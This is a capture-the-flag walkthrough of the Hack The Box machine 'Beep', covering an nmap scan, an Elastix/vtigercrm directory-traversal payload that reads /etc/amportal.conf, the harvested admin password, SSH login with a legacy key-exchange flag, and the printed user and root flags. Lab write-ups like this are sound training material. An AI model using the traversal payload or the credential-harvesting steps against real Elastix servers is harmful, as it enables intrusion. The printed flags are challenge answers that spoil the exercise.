


# Beep
## Recon
I started off by runnin nmap to check for open ports:
```bash
sudo nmap -A -T4 -p- 10.10.10.7
```
This showed quite a few open ports (view full scan [here](https://github.com/finn-francis/hackthebox/blob/main/resources/beep/scan_results)):
- 80 and 443 indicate a web server
- 25, 110, 143 are for email
- 22 - SSH
- 10000 hosted another web server
- Various other ports that I will check if I have no luck with anything else

As I come from a web development background I obviously chose to start with the web server.
The nmap scan showed that it was running on:
- Apache/2.2.3
- Elastix

## Web Pentest
Going to https://10.10.10.7 bought me to a simple login form



---

First I tested for SQL injection by filling in both the username and password fields with a `'` but this didn't do anything.

Next I tried addin `/admin` to the url - `https://10.10.10.7/admin`.

Initially this just triggered a popup asking for login credentials. I tested for SQL injection - again to no avail, but clicking cancel redirected me to a new page:




This got me interested as I would expect this to just chuck me back to the login page, so I started clicking around to see if it would let me in anywhere. But every link just caused the same popup.

---

Next I decided to look at the page source.
This was a good idea as the first thing I saw was a link with this href `../recordings/index.php`


This looked like a prime target for a directory traversal attack, so I hopped onto google to look for an exploit.

## Finding an Exploit

As this is running on Elastix I searched for "Elastix director traversal exploit", and the first result immediately looked promising - https://www.exploit-db.com/exploits/37637

## Running the Exploit

The exploit report provided me with this path to add to the URL - `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

This bought me to a lovely configuration file full of settings for the management portal, including lots of admin usernames and passwords! - https://github.com/finn-francis/hackthebox/blob/main/resources/beep/amportal.conf

These couple of paragraphs really caught my eye:
```
# This is the default admin name used to allow an administrator to login to ARI bypassing all security.
# Change this to whatever you want, don't forget to change the ARI_ADMIN_PASSWORD as well
ARI_ADMIN_USERNAME=admin

# This is the default admin password to allow an administrator to login to ARI bypassing all security.
# Change this to a secure password.
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```

## Gaining Root Access

Now that I had a username and password it felt like game over.

I ran SSH - `ssh root@10.10.10.7`, but it complained with something about diffie helmen and sha1.
I've never seen this before, so I had quick look through stackoverflow and found this:
```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 admin@10.10.10.7
```

This gave me a password prompt, and copying in the password from the settings file (jEhdIekWmdjE) gave me a root shell.

A very quick couple of searched provided me with the flags:
```
[root@beep ~]# cat /home/fanis/user.txt
fafcde217da5dbd8b35bd10273149df3
[root@beep ~]# cat root.txt
5051a982dca08a434756eb18215a1ab9
```